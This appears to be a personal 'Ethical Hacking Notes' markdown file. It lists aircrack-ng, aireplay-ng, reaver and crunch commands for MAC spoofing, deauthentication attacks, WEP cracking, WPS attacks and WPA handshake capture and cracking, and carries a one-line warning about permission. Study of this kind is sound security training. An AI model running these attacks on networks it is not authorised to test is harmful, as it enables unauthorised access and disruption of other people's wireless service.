 # Ethical Hacking Notes
___

## The Rules

- [x] Don't be a ass.
- [x] Have Fun.
- [ ] Learn Something New.
___

# Network Hacking - Gaining Access
___
### Changing your device's MAC Address

- First, ensure device is visible with `ifconfig` or `iwconfig`

- Next, take device down with `ifconfig <device name> down`
 
- Next, change the MAC Address with `ifconfig <device name> hw ether <MAC Address>` where MAC Address follow format 00:00:00:00:00:00

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Change Wirless Adapter to Utilize Monitor Mode

- First, ensure device is visible and not in monitor mode with `iwconfig`

- Next, bring down the device with `ifconfig <device name> down`

- Next, kill off processes that might interfere with aircrack-ng suit by running `airmon-ng check kill`

- Next, update monitor mode by running `iwconfig <device name> mode monitor`

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Packet Sniffing Using Airodump-ng

- To start packet sniffing, run `airodump-ng <device name>` where device name is your wireless adapter in monitor mode

- To specify the band frequency, utilize the `--band` argument

   `airodump-ng --band abg <device name>` will capture packets over 2.4 and 5 Ghz simultaniously

- In order to sniff packets on a specific network utilize the below command

   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

___

### Deauthentication Attack with aireplay-ng

- To disconnect any device from any router utilize the command:

   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

:+1:**DO NOT DO THIS TO A NETWORK OR DEVICE YOU DO NOT OWN OR HAVE PERMISSION TO...**:+1:

___

### Cracking  and Connecting to a WEP Wifi Network

##### High Volume WEP Wifi Network Cracking
- In order to crack a WEP, we need a large ammount of packets from a high volume network.

- Run aircrack-ng with the .cap file to crack the key

   `aircrack-ng <name of .cap file>` 

##### Low Volume WEP Wifi Network Cracking
- Utilize airodump-ng to sniff packets on the victum network as seen above.

- To associate your device to the network utilize aireplay-ng by running the command

   `aireplay-ng --fakeauth 0 -a <Router MAC> -h <Your Device unspec> <device name>` 

- Run an ARP Attack on the network by running the command
   `aireplay-ng --arpreplay -b <Router MAC> -h <Your Device unspec> <device name>`

- Run aircrackpng with the .cap file similar to above to crack the key
___

### Exploiting WPS Feature for WPA/WPA2 Wifi Network

- First, run reaver WPS cracker utilzing the command 

   `reaver --bssid <Network MAC> --channel <channel #> --interface <device name> -vvv --no-associate`

- next, associate your device to the network utilizing above command

___

### Capturing a WPA/WPA2 Handshake

- First, start packet sniffing a specific network utilizing the command
   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

- Next, run a deauthentication attack on a particular device utilizing the command
   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

___

### Cracking a WPA/WPA2 handshake with a wordlist Attack

- First, utilize the above section to capture a handshake.

- Next, ensure you have a large word list, github has large common password files

- Lastly, we need to utilize aircrack-ng to try and crack the handshake against the password file
   `aircrack-ng <handshake capture file .cap> -w <password txt file>`

___

### Creating your own password wordbank

- `crunch <min pass> <max pass> <Letters or numbers> -o <file name txt> -t <known format (he@@owor@d)> 
___

# Network Hacking - Post Connection Attacks
